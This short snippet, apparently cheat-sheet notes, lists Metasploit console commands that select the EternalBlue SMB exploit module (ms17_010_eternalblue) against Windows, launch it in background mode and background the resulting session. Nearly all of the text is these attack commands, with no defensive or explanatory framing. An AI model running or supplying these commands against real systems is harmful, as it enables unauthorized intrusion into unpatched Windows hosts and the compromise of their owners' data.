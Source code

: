 # select module

use exploit/windows/smb/ms17_010_eternalblue

# exploit background mode

exploit -z

# background mode -> go to msfconsole as soon as || ctrl+z

background
